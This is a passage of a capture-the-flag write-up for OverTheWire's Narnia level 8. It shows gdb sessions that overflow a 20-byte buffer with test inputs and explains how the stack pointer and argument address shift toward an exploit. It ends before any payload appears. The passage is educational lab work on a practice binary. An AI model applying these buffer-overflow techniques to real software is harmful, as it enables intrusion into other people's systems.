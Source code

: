     (gdb) run $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41")
    Starting program: /narnia/narnia8 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41")
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, 0x080491df in func ()
    (gdb) x/16wx $esp [3]
    0xffffd27c:	0x0804a008	0xffffd284	0x41414141	0x41414141
    0xffffd28c:	0x41414141	0x41414141	0x41414141 [0xffffd4f2]
    0xffffd29c:	0xffffd2a8	0x08049201 [0xffffd4f2]	0x00000000
    0xffffd2ac:	0xf7da1cb9	0x00000002	0xffffd364	0xffffd370

One interesting thing we noticed is that at [1], [2] "$ebp+8"'s value, which the 
argument to the function is being copied to "$ebp-4", with the latter being related 
to the `blah` pointer being placed on the stack and pointing to where our function 
argument points. At [3] we can confirm what the assembly instructions are showing us. 
If we attempt to overflow the buffer with something greater than 20, let's say 24, 
one can see that we didn't overwrite much (kind of ...).

    (gdb) run $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42")
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /narnia/narnia8 $(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42")
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    AAAAAAAAAAAAAAAAAAAA����������

    Breakpoint 1, 0x080491e7 in func ()
    (gdb) x/16wx $esp 
    0xffffd274:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd284:	0x41414141	0xffff0842	0xffffd298	0x08049201
    0xffffd294:	0xffffd4ee	0x00000000	0xf7da1cb9	0x00000002
    0xffffd2a4:	0xffffd354	0xffffd360	0xffffd2c0	0xf7fade34

As we can see, junk is printed to the console after the overflow happened. This is because
the address of the `blah` pointer changed to something non valid "0xffff0842" and data from 
this memory address is being copied to our sink buffer. But if we look carefully to the 
function's argument value at "$ebp+8", which was previously equal to "0xffffd4f2", now 
it's equal to "0xffffd4ee", which came from the fact that we added instead of 20 bytes, 24.
The difference is 4, so:

    >>> hex(0xffffd4f2-4)
    '0xffffd4ee'

This means that every time we add something the `b` pointer moves forward. So, when 
overflowing the `bok` buffer we got to make sure that the `blah` pointer has the value 
it should have, instead of pointing to junk. Thus, we can overflow the buffer with the 
following, as we can see in gdb: 


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html
